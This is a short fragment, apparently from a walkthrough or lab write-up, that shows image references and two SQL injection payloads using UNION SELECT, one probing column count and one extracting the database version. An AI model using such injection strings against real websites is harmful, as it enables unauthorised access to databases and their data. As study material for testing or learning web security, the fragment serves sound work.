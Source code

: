![](./IMG/17.png)
```
' AND 1=2 UNION SELECT 1,2,3-- -
```

![](./IMG/18.png)
```
' AND 1=1 UNION SELECT 1,2,@@version-- -
```
